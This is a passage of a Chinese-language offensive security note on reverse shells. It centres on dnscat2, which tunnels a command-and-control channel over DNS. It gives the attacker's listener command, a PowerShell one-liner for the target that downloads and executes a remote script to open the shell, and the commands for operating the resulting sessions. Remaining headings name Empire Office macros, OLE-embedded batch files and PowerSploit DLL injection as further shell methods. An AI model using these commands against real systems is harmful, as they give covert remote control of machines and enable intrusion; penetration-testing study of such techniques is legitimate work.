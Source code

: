   ```powershell
  ```

## dnscat2 反弹DNS shell

[dnscat2](https://github.com/iagox86/dnscat2)是一个DNS隧道，旨在通过DNS协议创建加密的命令和控制（C＆C）通道。dnscat2分为两部分：客户端和服务器。dnscat2客户端采用C语言编写，服务器端采用ruby语言编写。后来又有安全研究人员使用PowerShell脚本重写了dnscat2客户端dnscat2-powershell(https://github.com/lukebaggett/dnscat2-powershell).

利用dnscat2 和 dnscat2-powershell实现反弹DNS shell:

- 

- 攻击机：

  ```
  ruby dnscat2.rb --dns "domain=lltest.com,host=192.168.159.129" --no-cache -e open
  ```

  -e open 不使用加密连接，默认使用加密
  ruby dnscat2.rb —help 查看帮助

- 目标机执行：

  ```powershell
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer [host]
  ```

- 成功反弹shell后，攻击者：

  ```
  session -i 1 #进入到session 1
  shell #执行之后会新生成一个session 需要通过session -i 2 切换
  session -i 2
  ```

## 补充（[详情](https://www.anquanke.com/post/id/99793)）

还有一些比较玄学的东西，这里列举一波，可能有点老但是可能会有用，所以这里还是做一个小记录，以备不时之需要。

#### Empire 结合office反弹shell

[Empire](https://github.com/EmpireProject/Empire )基于powershell的后渗透攻击框架，可利用office 宏、OLE对象插入批处理文件、HTML应用程序(HTAs)等进行反弹shell

#### 利用office OLE对象插入bat文件反弹shell

#### PowerSploit DLL注入反弹shell





^
# **实现交互式shell的几种方法**
